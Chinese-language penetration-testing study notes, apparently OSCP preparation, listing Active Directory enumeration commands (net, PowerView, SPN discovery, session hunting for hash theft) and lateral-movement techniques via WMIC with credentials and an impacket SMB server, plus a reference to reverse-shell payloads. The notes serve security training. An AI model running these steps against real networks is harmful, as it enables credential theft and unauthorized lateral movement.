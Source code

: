 


## 信息收集

```shell
net user /domain
net group /domain
net group "Domain Admins" /domain
# 这种方法没办法收集到组的嵌套关系

# 可以使用PowerView
Import-Module .\PowerView.ps1
Get-Netdomain
Get-NetUser | select cn 

# 思路是找高权限用户，找哪一台主机有该用户的登录会话，用普通用户去连那台主机，找内存的hash
Get-NetGroup | select cn
Get-NetGroup "Domain Admins" | select member
Get-NetComputer | select cn,operationsystem,dnshostname

# 寻找普通用户在哪台机器上有本地管理员权限
Find-LocalAdminAccess
Get-NetSession #域当中所有主机当前的会话
Get-NetSession -ComputerName User1 # 查看User1中存在的会话

# 查看账户绑定的spn
Get-NetUser -SPN | select cn,serviceprincipalname
# 可以针对SPN服务账号的名称进行密码爆破

#看看解析成什么IP
nslookup


# 找域当中所有主机上的文件共享
Find-DomainShare
# 有一个文件共享必定存在 \\域名
\\oscp.com # 找一个SYSVOL，域当中的策略都在里面

# 各种信息收集可以用SharpHound


```



## 远程登录



### WMIC

```powershell
# 在远程主机user1执行命令
wmic /node:user1 process call create "cmd" # 现在登录的账号对远程主机有管理员权限，登录域的时候做一次身份认证后，执行命令不需要继续认证了
wmic /node:10.0.2.94 /user:oscp\alice /password:Password2 process call create "cmd"


# kali传输文件新方式
mkdir p
impacket-smbserver -smb2support p

# 然后在windows上访问\\kali-ip, 然后把要共享的文件拖进去
# 反弹shell可以用谷安提供的encode.py生成payload
```
